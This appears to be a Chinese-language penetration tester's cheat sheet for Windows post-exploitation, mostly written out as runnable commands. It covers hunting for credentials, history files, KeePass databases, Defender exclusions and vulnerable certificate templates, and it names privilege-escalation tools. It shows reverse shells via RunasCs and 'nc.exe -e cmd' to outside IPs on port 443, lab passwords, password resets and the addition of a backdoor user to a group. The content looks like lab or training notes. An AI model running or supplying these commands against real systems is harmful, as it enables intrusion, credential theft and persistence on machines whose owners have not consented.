 ##### 枚举命令
```powershell
C:\Windows\system32\spool\drivers\color      可以下载二进制文件到这个目录
set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0; (设置初始变量[执行命令报错时])

whoami 
	whoami /priv
	whoami /groups
net users  查看本地计算机上所有用户账户的列表
	net user [NAME]  
net groups
	Get-LocalGroup
	net groups [NAME]
	Get-LocalGroupMember Username
Get-Process   (进程)
Get-Process | Where-Object { $_.Id -eq 2492 } | Select-Object Path   (查找可疑进程(ID)的路径)
hostname
systeminfo
cmd /c ver (版本信息)
wmic qwe (更新日志)
tasklist /SVC  (正在运行的服务)
netstat -ano [| find "xxx"]
	netstat -ano | findstr /i "tcp"
cmdkey /list  列出当前计算机上存储的凭据信息
schtasks /query /fo LIST /v  查看计划任务
	schtasks /query /fo LIST /v | Select-String -Pattern "moss" -Context 3,3 (moss为用户名，猜测可能的路径)
Get-ChildItem Env:  (powershell 查看环境变量 , 可能会存在凭据信息)
net view \\[Hostname]   (查看本机共享文件夹，能不能通过钓鱼拿到shell或者hash)

C:\$Recycle.Bin
C:\inetpub\wwwroot\bin
gci -Recurse c:\User | select FullName  递归查找users目录下所有文件
dir /a  |  ls -force | dir -force
C:\Users\[USER]\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt    (查看历史记录)
Get-ChildItem -Path C:\Users\offsec\ -Include .txt,.pdf,.xls,.xlsx,.doc,.docx -File -Recurse -ErrorAction

sc query windenfend   查看windows denfender是否开启
netsh firewall show state  查看防火墙设置
netsh advfirewall firewall show rule name=all  (查看计算机防火墙规则)
cmd.exe /c powershell.exe -c Get-NetFirewallRule -Action Block -Enabled True -Direction Outbound (查看计算机防火墙规则)
reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths"     Windows Defender 的文件路径排除列表

(检查所有已安装的应用程序)
	Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
	Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
	
qwinsta *  (当前windows中登录的会话信息)    
	如果不能执行可以使用RunasCs.exe:  .\Run.exe x x qwinsta -l 9
powershell -c get-psdrive -psprovider filesystem (检索系统磁盘)


# 列出user目录非默认文件
Get-ChildItem -Path C:\Users\ -File -Recurse -ErrorAction SilentlyContinue | Where-Object { $_.Extension -ne '.lnk' -and $_.Extension -ne '.url' }
# 寻找 keepass 文件
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
# 寻找 git 目录
Get-ChildItem -Path C:\ -Filter .git -Recurse -Force -Directory -ErrorAction SilentlyContinue


winpeas 如果有mysql / phpmyadmin , 可以查看创建的文件是否有管理员权限 ， 如果是则是一种提权的方式 (内网可以把80转发出来用phpmyadmin 更方便操作)
可以尝试利用systeminfo的tzres.dll，或者 WerTrigger（见利用）

icacls xxxx   (查看文件(夹)的权限)
```

##### 枚举脚本
https://github.com/PowerShellMafia/PowerSploit/tree/master
```powershell
~/tool/PowerSploit-master/Privesc/PowerUp.ps1
Invoke-AllChecks
(可疑服务 拥有可修改权限 滥用方式见下方 可修改服务二进制程序滥用)

winpeas.exe log
winpspy.exe

https://github.com/rasta-mouse/Sherlock
Sherlock.ps1 / Watson  都可以枚举主机上的内核漏洞

```

- ADCS (易受攻击的证书模板) 枚举 !!!!!!!!!!!!!!!!!!!!
```bash
如果出现问题可以尝试apt remove/install certipy-ad
certipy-ad find -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -target authority.htb -text -stdout -vulnerable
```

https://github.com/itm4n/PrivescCheck
```powershell
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```

-  MailSniper (枚举目标域的 NetBIOS 名称，*Microsoft Exchange 环境, 比如说 outlook* )
https://github.com/dafthack/MailSniper
```powershell
Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io
[*] Harvesting domain name from the server at mail.cyberbotic.io
The domain appears to be: CYBER or cyberbotic.io
```
可以从 `cyberbotic.io` 中继续枚举有用的信息。


##### 添加凭据，登录类操作
- Windows 内增加凭据操作，无 winRM 情况：
```powershell
$user = "Hostname\Username"
$pass = ""
$secstr = New-Object -TypeName System.Security.SecureString
$pass.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $user, $secstr
Invoke-Command -ScriptBlock { CMD } -Credential $cred -Computer localhost
```

- Remote Desktop 中也可以尝试 Runas ，以 backupadmin 身份运行 cmd
```powershell
runas /user:backupadmin cmd
runas /user:dave2 "powershell -Command Start-Process powershell -Verb RunAs"   (运行dave2的管理员powershell)
```

- RunasCs
https://github.com/antonioCoco/RunasCs
```powershell
.\runascs.exe C.Bum Tikkycoll_431012284 -r 10.10.16.21:443 cmd
```
登录用户后反弹一个 cmd 到本地的443端口

- PS Session 中使用 runas 脚本：
https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1?source=post_page-----b95d3146cfe9--------------------------------
```powershell
. .\Invoke-RunasCs.ps1
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "whoami"
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "C:\\programdata\\nc.exe -e cmd 192.168.45.170 443"
```


##### 修改类操作
- 修改用户的密码
```powershell
net user USERNAME PASSWORD
--------------------------------------------
. .\powerview.ps1
$pass = ConvertTo-SecureString 'xxx' -AsPlainText -Force  
Set-DomainUserPassword -Identity USERNAME -AccountPassword $pass
```

- 添加命令
```powershell
net user xek xekOnerR! /add  (增加用户)
net group "xxxxxxxxx" /add xek (域用户加入到组)
```

##### 枚举防火墙/AppLocker
```powershell
Get-NetFirewallRule -PolicyStore ActiveStore | where { $_.Action -eq 'Block' }   (出入站规则)
Get-AppLockerPolicy -Effective -Xml   (将信息全部复制到VS CODE ;格式化代码后ctrl + k ,ctrl + 0 即可层级展开阅读)

Get-NetFirewallRule -PolicyStore ActiveStore -Name "{D7871DF0-F71B-4BD0-B7DE-F8E6966A3640}" | Get-NetFirewallApplicationFilter   (指定Name搜索过滤的应用)
```

